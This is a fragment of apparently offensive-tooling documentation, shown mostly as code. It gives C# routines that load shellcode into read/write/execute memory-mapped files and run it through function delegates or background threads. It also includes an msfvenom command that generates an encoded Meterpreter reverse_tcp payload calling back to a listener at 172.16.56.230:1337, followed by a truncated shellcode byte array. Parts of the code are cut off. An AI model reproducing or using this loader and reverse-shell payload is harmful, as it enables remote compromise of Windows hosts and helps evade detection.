 ```python
  sock.send(buf)
  sock.close()

scode()
```

b. via CSharp

see C:\Users\dimas\Documents\Projects\MET\Typhoon\Examples\ShellCode.cs

```csharp
 mmf = MemoryMappedFile.CreateNew("__shellcode",
                            shellcode.Length, MemoryMappedFileAccess.ReadWriteExecute);

// Create a memory mapped view accessor with read/write/execute permissions..
mmva = mmf.CreateViewAccessor(0, shellcode.Length,
            MemoryMappedFileAccess.ReadWriteExecute);

// Write the shellcode to the MMF..
mmva.WriteArray(0, shellcode, 0, shellcode.Length);

// Obtain a pointer to our MMF..
var pointer = (byte*)0;
mmva.SafeMemoryMappedViewHandle.AcquirePointer(ref pointer);

// Create a function delegate to the shellcode in our MMF..
var func = (GetPebDelegate)Marshal.GetDelegateForFunctionPointer(new IntPtr(pointer),
                            typeof(GetPebDelegate));

// Invoke the shellcode..
return func();
```

```csharp
                private WorkThreadFunction(ShellCode){
                    DynCSharpRunner.CompileRunShellCode(ShellCode);
                }
               //msfvenom  -p windows/meterpreter/reverse_tcp --platform windows ReverseConnectRetries=255   
                            PrependMigrate=true  LHOST=172.16.56.230 LPORT=1337 -e x86/shikata_ga_nai -i 3 -f  csharp 
                String ShellCode = @"
                    0xdb,0xc0,0xb8,0x22,0x07,0x27,0xf3,0xd9,0x74,0x24,0xf4,0x5e,0x31,0xc9,0xb1,
                    0x61,0x31,0x46,0x1a,0x83,0xc6,0x04,0x03,0x46,0x16,0xe2,0xd7,0xba,0x1c,0x88,
                    0xb0,0x69,0xed,0x38,0xfb,0x8e,0x25,0x5a,0x04 ....
                    ";


                Thread thread = new Thread(new ThreadStart(WorkThreadFunction));
                thread.IsBackground = true;
                thread.Start();
```
